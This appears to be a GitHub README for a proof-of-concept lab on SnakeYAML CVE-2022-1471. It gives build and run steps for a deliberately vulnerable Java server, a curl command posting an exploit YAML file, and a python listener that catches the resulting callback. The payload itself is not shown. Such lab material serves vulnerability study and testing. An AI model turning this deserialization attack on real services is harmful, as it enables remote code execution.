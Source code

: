 # snakeyaml_cve_poc
SnakeYAML-CVE-2022-1471-POC


## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t snakeyaml .`

## run

Run the container with `docker run --rm -p8080:8080 snakeyaml` 

or the jar if you built on your host with `java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar`

## use

Send a get request to serialize object of student class and send yaml as response
![](images/image1.png)

Send a post request with yaml to read YAML object as custom java object - deserialization
![](images/image2.png)


## curl command
```shell
curl POST --data-binary @/files/exploit.yaml  -H "Content-type: text/x-yaml" http://localhost:8080
```

## exploit

Execute `python3 -m http.server 8000` to run the http server

Send a post request with yaml containing exploit
![](images/image3.png)

You should observe a HTTP GET request on the listner
